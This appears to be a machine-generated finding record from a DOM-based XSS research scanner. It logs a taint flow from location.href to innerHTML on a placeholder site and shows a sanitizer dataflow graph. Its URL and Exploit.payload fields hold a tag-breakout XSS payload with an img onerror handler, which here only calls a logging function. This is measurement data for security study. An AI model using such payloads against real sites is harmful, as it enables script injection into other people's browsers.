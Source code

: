 // Finding: 1dc2e557-f8b6-40f9-a2a0-c76cfb0cba16
// Finding.url: https://www.example6.com/provincial-nomination-program.html##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('0e38b10582f14949921b8095ba5d5d45')><!--/*
// Finding.parentloc: https://www.example6.com/provincial-nomination-program.html##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('0e38b10582f14949921b8095ba5d5d45')><!--/*
// Finding.domain: www.example6.com
// Finding.base_domain: example6.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: et
// Sanitizer.location: https://fast.example7.com/client/2105/13141925/min/v1_gs_lib.js - nt:2:1474
// Finding.begin: 2043
// Finding.end: 2069
// Finding.original_uuid: 9b12f14c-98e9-47eb-b49e-6846126ce7bd
// Finding.TwentyFiveMillionFlowsId: -903483276
// Finding.script: https://fast.example7.com/client/2105/13141925/min/v1_gs_lib.js
// Finding.line: 3
// Exploit.uuid: 0e38b105-82f1-4949-921b-8095ba5d5d45
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 26
// Exploit.replace_begin_url: 61
// Exploit.replace_end_url: 61
// Exploit.replace_begin_param: 2069
// Exploit.replace_end_param: 2069
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 234562037
// DepGraph.sanitizer_hash: 234562037

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="decodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="preg_replace"];
n4 [shape=box, label="RegExp: /\u00AD/"];
n5 [shape=box, label="Lit: %C2%AD"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="RegExp: /#gs\.(.)*/"];
n9 [shape=box, label="Lit: "];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: &"];
n13 [shape=box, label="Lit: ?"];
n14 [shape=box, label="Var: x"];
n15 [shape=box, label="Var: x"];
n16 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n15 -> n11;
n16 -> n15;
}